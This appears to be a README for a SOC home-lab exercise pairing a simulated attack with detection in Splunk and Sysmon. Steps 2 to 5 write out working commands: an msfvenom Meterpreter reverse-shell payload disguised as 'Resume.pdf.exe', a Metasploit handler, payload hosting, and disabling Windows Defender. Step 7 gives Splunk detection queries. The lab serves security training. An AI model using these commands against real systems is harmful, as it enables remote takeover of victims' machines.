 # Simple Malware Analysis – SOC Home Lab

## Overview
This document explains the execution phase of the SOC home lab using **Kali Linux** and **Windows 10 Pro**.  
The goal is to simulate an attack–defense scenario where we:
- Perform reconnaissance and exploitation from Kali.
- Deliver and execute malware on Windows.
- Monitor and investigate events using **Sysmon + Splunk**.

A PDF file with screenshots is provided alongside this README for visual reference.

---

## Steps

### 1. Reconnaissance
- From **Kali Linux**, run an Nmap scan against the Windows target:
  ```nmap 192.168.20.10```
- Port 3389 (RDP) should appear open. NOTE: If it doesn't appear open, we need to activate Remote Desktop on our Windows machine.

### 2. Malware Creation with msfvenom
- On Kali, generate a payload:
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe```
- LHOST = Kali IP
- LPORT = Listening port (example: 4444)

### 3. Starting Metasploit
- Launch Metasploit:
```metasploit```
- Use the multi-handler:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.20.11
set LPORT 4444
run
```

### 4. Hosting the Malware
- Start a simple web server in Kali to share the payload:
```python3 -m http.server 9999```
- Windows will later connect to Kali on port 9999 to retrieve the file.

### 5. Defender-Side Preparation
- On Windows 10 Pro (or your version of Windows), disable Windows Defender (to allow file execution).
- From the browser, navigate to:
```http://192.168.20.11:9999/Resume.pdf.exe```
- Download and execute the file (a warning will appear; proceed for the test).

### 6. Verifying the Connection
- Back in Kali, confirm the meterpreter session is opened.
- Test with some commands (sysinfo, ipconfig) to validate shell access.
- In Windows Task Manager, you should see Resume.pdf.exe running.

### 7. Splunk & Sysmon Analysis
- Open Splunk on Windows (http://localhost:8000).
- Search for Sysmon logs:
```index=endpoint```
- Look for:
  - Source IP (Kali machine).
  - Destination ports scanned/used.
  - Process events triggered by the payload (Resume.pdf.exe).
**Example Investigations**
- Check ports targeted:
```index=endpoint dest_ip=192.168.20.10 | stats count by dest_port```
- Search for the malware process:
```index=endpoint Image="*Resume.pdf.exe"```
- Filter EventCode 1 (Process Create):
```index=endpoint EventCode=1```
  - Expand logs to view Parent Process and CommandLine execution.
- Use the Process GUID to pivot and track all related child processes (e.g., malware spawning cmd.exe).

## Notes
- A PDF version of this lab with full screenshots is included in this repository for visual reference.
- Use the PDF when following along if you prefer to see exact UI examples.

## Disclaimer
- This lab is for educational purposes only.
- All testing was performed in a controlled, isolated environment.
